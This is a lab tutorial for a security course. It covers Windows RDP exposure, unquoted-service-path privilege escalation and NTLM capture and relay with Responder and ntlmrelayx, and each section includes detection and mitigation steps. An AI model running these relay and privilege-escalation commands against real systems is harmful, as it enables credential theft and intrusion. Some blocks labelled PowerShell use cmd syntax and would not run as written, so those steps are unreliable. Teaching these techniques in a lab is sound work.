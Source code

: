# Windows-side RDP, Service Path & NTLM — Step-by-Step Tutorial (Lab)

> **Scope / warning:** These steps are for your controlled lab VM only (e.g., `win-rdp.local`, `win-service.local`, `win-smb.local`, or `192.168.x.y`).  
> Do **not** run or test against systems you don't own or have explicit permission to test.  
> This is a teaching lab — follow ethical rules and your course supervisor's instructions.

---

## Table of contents
1. Pre-lab checks  
2. RDP — discovery, access & post-access checks  
3. Unquoted service path — detect, reproduce (lab-safe), and remediate  
4. NTLM / SMB relay — capture & relay in a controlled lab  
5. Quick mitigations (per vulnerability)  
6. Lab checklist & reporting  
7. Appendix — common commands & payloads

---

## 1) Pre-lab checks (one-time)
1. Boot the **Windows target VM** and ensure networking between your attacker machine (Kali) and the VM.  
2. Confirm target hostnames resolve (via `/etc/hosts` or lab DNS):
   - `win-rdp.local` → RDP demo host  
   - `win-service.local` → service path demo host  
   - `win-smb.local` → SMB/NTLM demo host  
3. From **Kali (attacker)**, verify connectivity:

```bash
# Replace hostnames or IPs with your own
ping -c 2 win-rdp.local
nmap -Pn -p 3389,139,445 --open 192.168.56.0/24
```

4. On the **Windows VM**, snapshot your baseline configuration before starting.  
5. Ensure your instructor approves any temporary AV or firewall changes before testing.

---

## 2) RDP — discovery, access & post-access checks

**Goal:** Demonstrate insecure RDP exposure and authentication risks.

### 2.1 Discover RDP hosts
```bash
nmap -Pn -p 3389 --open 192.168.56.0/24
```

### 2.2 Check RDP and NLA settings (on Windows target)
```powershell
# Check if RDP enabled
Get-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections"

# Check NLA
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp").UserAuthentication
```

### 2.3 Connect via RDP
```bash
# From Kali
xfreerdp /v:192.168.56.102 /u:Administrator
# Or from Windows host
mstsc /v:192.168.56.102
```

### 2.4 Evidence
- Screenshot RDP desktop after login.  
- Run inside PowerShell:
  ```powershell
  whoami
  systeminfo
  Get-EventLog -LogName Security -Newest 10
  ```
- Note weak password / missing NLA configurations if found.

---

## 3) Unquoted Service Path — detect, reproduce (lab-safe), and remediate

**Goal:** Show how unquoted service paths allow local privilege escalation.

### 3.1 Detect vulnerable services
```powershell
Get-WmiObject -Class Win32_Service | Where-Object {
    ($_.PathName -match ' ') -and ($_.PathName -notmatch '^"')
} | Select-Object Name, PathName
```

### 3.2 Reproduce safely
```powershell
# Run as Administrator
mkdir "C:\Program Files\Test Service"
copy "%WINDIR%\System32\calc.exe" "C:\Program Files\Test Service\service.exe" /Y
copy "%WINDIR%\System32\calc.exe" "C:\Program.exe" /Y

sc create VulnerableTest binPath= "C:\Program Files\Test Service\service.exe" start= auto
sc qc VulnerableTest
sc start VulnerableTest
```

**Expected:** `calc.exe` opens as SYSTEM, proving the path was parsed incorrectly.

### 3.3 Remediate
```powershell
sc config VulnerableTest binPath= "\"C:\Program Files\Test Service\service.exe\""
sc qc VulnerableTest
```

**Expected:** Service runs normally and no longer executes `C:\Program.exe`.

---

## 4) NTLM / SMB Relay — capture & relay (lab-only)

**Goal:** Capture and relay NTLM authentication in an isolated network.

### 4.1 Prepare attacker (Kali)
```bash
sudo responder -I eth0 -wrf
```

### 4.2 Trigger victim (Windows)
Run on Windows (as standard user):
```
\\NonExistentShare\demo
```
This triggers LLMNR/NBT-NS name resolution requests.

### 4.3 Relay (optional, lab-safe)
```bash
ntlmrelayx.py -t smb://192.168.56.102 -smb2support
```

**Expected:** Responder captures hashes; relay may authenticate to another host if configuration allows.

---

## 5) Quick mitigations (practical)

- **RDP:** Enable NLA, use MFA, restrict to VPN/trusted IPs, and patch regularly.  
- **Service Paths:** Quote all binary paths; audit regularly.  
- **NTLM Relay:** Disable LLMNR/NBT-NS, enforce SMB signing, prefer Kerberos, restrict NTLM use.

---

## 6) Lab checklist & reporting
For each vulnerability:
- Screenshot baseline + exploit + fix.  
- Include tool output (e.g., `nmap`, `Responder`, `sc qc`).  
- Describe root cause, exploit method, and mitigation.  
- Revert VM to snapshot afterward.

---

## 7) Appendix — common commands

**RDP scan & connect**
```bash
nmap -Pn -p 3389 --open 192.168.56.0/24
xfreerdp /v:192.168.56.102 /u:Administrator
```

**Check unquoted paths**
```powershell
Get-WmiObject Win32_Service | Where { $_.PathName -match ' ' -and $_.PathName -notmatch '^"' }
```

**Responder & relay**
```bash
sudo responder -I eth0 -wrf
ntlmrelayx.py -t smb://192.168.56.102 -smb2support
```

---

## Final notes — safe experimentation
- Work from snapshots and document all actions.  
- Never test outside approved lab networks.  
- Practise responsible disclosure principles.
